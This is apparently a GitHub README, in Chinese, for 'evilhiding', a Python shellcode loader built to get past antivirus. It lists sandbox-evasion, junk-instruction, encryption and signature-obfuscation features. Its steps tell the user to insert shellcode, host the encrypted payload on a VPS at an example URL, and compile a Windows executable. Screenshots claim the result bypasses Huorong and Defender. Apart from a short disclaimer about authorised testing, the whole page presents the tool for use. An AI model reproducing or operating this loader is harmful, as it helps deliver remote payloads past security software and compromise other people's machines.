 # evilhiding

shellcode loader,bypassav,免杀工具，一款基于python的shellcode免杀加载器

## 工具浅析

- 远控条件触发防沙箱
- 花指令干扰
- loader和shellcode进行fernet加密
- 触发器混淆干扰特征码
- 自动刷新ico图片的md5，防止图标特征码被查杀



## 用法

- 安装依赖

```
pip install -r requirements.txt
```

- 执行main.py

```
将shellcode填入main.py
python main.py #会生成a.txt和b.py
```

- 将a.txt放入vps，并将a.txt的url填入b.py中，再执行create.py

```
例如：url='http://192.168.52.129/a.txt'
python create.py
dist目录下生成HipsMain.exe
```

**仅支持windows系统编译!**



## 免杀测试

**过火绒**

![](picture/image-20231019203001783.png)

**过defender**

![](picture/image-20231019204156899.png)

**动态执行**

![image-20231020182032610](picture/image-20231020182032610.png)



## 声明

- 仅限用于技术研究和获得正式授权的测试活动。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
- 工具并没有多少技术含量，站在前辈肩膀上造轮子而已
- 不能免杀可以提Issues，stars是持续更新的动力，嘻嘻嘻。